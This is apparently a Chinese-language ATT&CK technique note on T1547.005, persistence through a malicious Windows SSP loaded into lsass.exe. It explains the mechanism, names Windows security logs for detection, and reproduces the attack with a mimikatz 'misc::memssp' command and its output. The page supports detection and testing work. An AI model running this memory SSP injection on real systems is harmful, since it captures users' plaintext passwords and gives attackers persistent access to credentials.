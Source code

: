 # T1547-005-win-SSP权限维持

## 来自ATT&CK的描述

Windows SSP（Windows安全支持提供程序）动态链接库在系统启动时加载到LSA（本地安全机构）进程中。一旦加载到LSA中，SSP动态链接库可以访问存储在Windows中的加密和明文密码，例如任何登录用户的域密码或智能卡PIN码。SSP配置存储在两个注册表项中：HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages和HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\SecurityPackages。攻击者可能会修改这些注册表项来添加新的SSP。这些SSP将在下次系统启动时加载，或者在调用AddSecurityPackage Windows API函数时加载。

## 测试案例

SSP（Security Support Provider）是windows操作系统安全机制的提供者。简单的说，SSP就是DLL文件，主要用于windows操作系统的身份认证功能，例如NTLM、Kerberos、Negotiate、Secure Channel（Schannel）、Digest、Credential（CredSSP）。

SSPI（Security Support Provider Interface，安全支持提供程序接口）是windows操作系统在执行认证操作时使用的API接口。可以说SSPI就是SSP的API接口。

如果获得目标系统system权限，可以使用该方法进行持久化操作。其主要原理是：LSA（Local Security Authority）用于身份验证；lsass.exe作为windows的系统进程，用于本地安全和登录策略；在系统启动时，SSP将被加载到lsass.exe 进程中。但是，假如攻击者对LSA进行了扩展，自定义了恶意的DLL文件，在系统启动时将其加载到lsass.exe进程中，就能够获取lsass.exe进程中的明文密码。这样即使用户更改密码并重新登录，攻击者依然可以获得该账号的新密码。

## 检测日志

windows安全日志

## 测试复现

### 方法一

使用mimikatz将伪造的SSP注入内存，这样做不会在系统中留下二进制文件，但如果域控制器重启，被注入内存的伪造的SSP将会丢失。

```dos
mimikatz.exe "privilege::debug" "misc::memssp" exit
```

```test
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>mimikatz.exe "privilege::debug
" "misc::memssp" exit

  .#####.   mimikatz 2.1.1 (x64) built on Apr  9 2017 23:24:20
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # misc::memssp
Injected =)

mimikatz(commandline) # exit
Bye!
```
